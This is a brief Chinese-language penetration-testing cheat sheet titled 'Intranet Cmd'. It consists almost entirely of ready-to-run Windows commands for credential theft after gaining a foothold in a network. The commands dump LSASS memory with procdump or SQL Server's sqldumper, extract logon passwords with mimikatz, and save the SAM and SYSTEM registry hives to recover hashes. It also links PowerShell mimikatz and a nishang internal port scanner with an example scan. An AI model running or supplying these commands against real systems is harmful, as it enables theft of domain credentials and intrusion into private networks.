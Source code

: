 # Intranet Cmd

---

内网渗透常用cmd命令

```
tasklist /svc  # 查看杀软情况
```

远程内存dump，本地使用mimikatz读取dump文件中域用户登陆次电脑中保存的密码

- procdump下载：https://docs.microsoft.com/zh-cn/sysinternals/downloads/procdump
- mimikatz下载：https://github.com/gentilkiwi/mimikatz/releases

```
procdump64.exe -accepteula -ma lsass.exe 1.dmp   # dump内存
makecab .\1.dmp  1.zip                           # windows自带压缩
下载1.zip，本地解压使用：
mimikatz.exe "log" "sekurlsa::minidump 1.dmp" "sekurlsa::logonPasswords full" exit
```

sqlserver dump(来源:https://xz.aliyun.com/t/9831)

```
dir /s/a-d/b C:\*sqldumper.exe   # 查看是否有sqlserver,切换到该目录
for /f  "tokens=2" %i in ('tasklist /FI "IMAGENAME eq lsass.exe" /NH') do Sqldumper.exe %i 0 0x01100   # 查看是否有sql保存凭证
mimikatz.exe  "sekurlsa::minidump SQL.dmp" "sekurlsa::logonPasswords full" exit
```

sam数据库(来源:https://xz.aliyun.com/t/9831)

```
reg save hklm\sam .\sam.hive&reg save hklm\system .\system.hive
mimikatz.exe "lsadump::sam /system:sys.hive /sam:sam.hive"
```

powershell 版mimikatz

```
https://github.com/Stealthbits/poshkatz
```

powershell 版内网扫描

```
https://github.com/samratashok/nishang/blob/master/Scan/Invoke-PortScan.ps1
Invoke-PortScan -StartAddress 192.168.0.1 -EndAddress 192.168.10.254 -ResolveHost -ScanPort
```

